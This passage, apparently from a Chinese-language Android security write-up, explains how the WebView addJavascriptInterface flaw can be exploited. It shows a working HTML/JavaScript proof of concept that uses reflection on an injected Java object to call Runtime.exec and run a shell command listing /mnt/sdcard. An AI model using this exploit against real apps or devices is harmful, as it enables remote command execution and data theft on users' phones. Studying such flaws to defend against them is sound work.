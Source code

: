  2) 利用addJavascriptInterface方法注册可供JavaScript调用的java对象 “injectedObj”，利用反射机制调用Android API getRuntime执行shell命令： 

 EXP的JavaScript代码： 

```html
<html>
 <body>
 <script>
  function execute(cmdArgs)
  {
  return injectedObj.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec(cmdArgs);
  }

  var res = execute(["/system/bin/sh", "-c", "ls -al /mnt/sdcard/"]);
  document.write(getContents(res.getInputStream()));
 </script> 
 </body>
</html>
```

 利用后的执行结果：
